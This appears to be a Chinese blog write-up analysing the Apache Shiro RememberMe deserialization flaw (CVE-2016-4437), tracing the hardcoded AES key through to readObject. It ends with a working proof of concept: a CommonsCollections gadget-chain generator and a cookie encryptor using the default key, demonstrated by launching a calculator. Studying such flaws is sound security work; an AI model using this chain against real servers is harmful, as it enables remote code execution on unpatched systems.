






# CVE-2016-4437漏洞分析

## 前言

CVE-2016-4437 是 Shiro 历史漏洞中比较著名的一个，官方编号为 Shiro-550。

影响版本：Shiro  < 1.2.5

漏洞描述：如果程序未能正确配置 “remember me” 功能所使用的密钥。攻击者可通过发送带有特制参数的请求利用该漏洞执行任意代码或访问受限制内容。

## 前置知识

Shiro 在 0.9 版本开始提供 RememberMe 模块，用于应用程序记录登录用户凭证的功能。

### RememberMeManager

`org.apache.shiro.mgt.RememberMeManager`接口提供了以下五个方法：

- `getRememberedPrincipals()`：RememberMe 的功能，在指定上下文中寻找记录的`principals`。
- `forgetIdentity()`：忘记用户身份标识。
- `onSuccessfulLogin()`：登录校验成功时调用，保存当前用户的`principals`以供应用程序以后调用。
- `onFailedLogin()`：登录校验失败时调用，忘记当前用户的`principals`。
- `onLogout()`：用户退出登录时调用，忘记当前用户的`principals`。

### AbstractRememberMeManager

`org.apache.shiro.mgt.AbstractRememberMeManager`是实现`RememberMeManger`接口类的抽象类，这里有几个比较重要的成员变量需要了解：

- ` DEFAULT_CIPHER_KEY_BYTES`：一个硬编码 AES KEY，该 KEY 会被设置为加解密 KEY 的成员变量（encryptionCipherKey/decryptionCipherKey）。
- `serializer`：Shiro 的序列化器，用来对序列化和反序列化标识用户身份的`PrincipalCollection`对象。
- `cipherService`：用于数据加解密的类，实际上是`org.apache.shiro.crypto.AesCipherService`类。

### CookieRememberMeManager

`org.apache.shiro.web.mgt.CookieRememberMeManager`类在 Shiro 中实现使用 Cookie 记录用户身份信息的功能，比较值得关注的方法为`getRememberedSerializedIdentity()`：

```java
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {
        if (!WebUtils.isHttp(subjectContext)) {
            if (log.isDebugEnabled()) {
                String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a servlet request and response in order to retrieve the rememberMe cookie. Returning immediately and ignoring rememberMe operation.";
                log.debug(msg);
            }

            return null;
        } else {
            WebSubjectContext wsc = (WebSubjectContext)subjectContext;
            if (this.isIdentityRemoved(wsc)) {
                return null;
            } else {
                HttpServletRequest request = WebUtils.getHttpRequest(wsc);
                HttpServletResponse response = WebUtils.getHttpResponse(wsc);
                String base64 = this.getCookie().readValue(request, response);
                if ("deleteMe".equals(base64)) {
                    return null;
                } else if (base64 != null) {
                    base64 = this.ensurePadding(base64);
                    if (log.isTraceEnabled()) {
                        log.trace("Acquired Base64 encoded identity [" + base64 + "]");
                    }

                    byte[] decoded = Base64.decode(base64);
                    if (log.isTraceEnabled()) {
                        log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
                    }

                    return decoded;
                } else {
                    return null;
                }
            }
        }
    }
```

在该方法中，主要实现了获取 Cookie 中的内容并通过 Base64 解码，然后返回 byte 数组的功能。

## 漏洞分析

漏洞环境已经上传到 github 中：https://github.com/dota-st/vulnEnv

先简单了解一下该漏洞的原理：

当用户登录勾选`remember me`的时候，Shiro 会将当前用户的 Cookie 信息序列化后进行 AES 加密存储在 Cookie 的 RememberMe 字段中，在下次请求时会读取 Cookie 中的 RememberMe 字段并进行 AES 解密然后反序列化。


然而通过前面的`AbstractRememberMeManager`类我们知道，AES 加解密的 KEY 是硬编码在该类中的，因此当我们知道 KEY之后，可以伪造 RememberMe 字段进而触发反序列化漏洞。

那么我们便开始一步步跟着调试吧，打上断点，在 Cookie 添加 RememberMe 字段然后发送请求。

在`AbstractRememberMeManager#getRememberedPrincipals()`方法中将上下文数据传入到`getRememberedSerializedIdentity()`方法中


接着会跳转到`CookieRememberMeManager#getRememberedSerializedIdentity()`方法中


可以看到`readValue()`方法会从请求中获取`RememberMe`字段的值，最后通过`Base64.decode()`解码后返回 byte 数组，接着又回到`getRememberedPrincipals()`方法


继续跟进`convertBytesToPrincipals()`方法，调用`decrypt()`方法进行解密


继续跟进`decrypt()`方法


这里调用到`getDecryptionCipherKey()`方法，我们跟进一下


这里到了`AbstractRememberMeManager#getDecryptionCipherKey()`方法，前面我们提到过该类，在这里获取到了硬编码的秘钥。

接着`decrypt()`方法走完 return 了`serialized`字节数组，最后调用了`deserialize()`方法


继续跟进`deserialize()`方法，跟着调用了`getSerializer().deserialize()`方法


继续跟进`getSerializer().deserialize()`方法


可以看到，这里通过`ByteArrayInputStream()`获取了输入流，最后调用`readObject()`方法进行反序列化。

回顾梳理一下流程：

1. 传入`RememberMe`字段，获取该字段的值；
2. 对`RememberMe`进行 Base64 解码，然后调用硬编码的 KEY 进行解密；
3. 对解密后的内容进行反序列化。

## 编写 POC

在 pom.xml 文件里添加了`CommonCollections`和`javassist`依赖，以完成反序列化的利用演示。


这里通过前面我们学习的`CommonsCollections11`链子生成恶意文件
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

根据对应的`AbstractRememberMeManager#encrypt()`方法编写加密
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

运行后获得构造的恶意`RememberMe`字段内容，添加到 Cookie 中发送请求，成功弹出计算器。
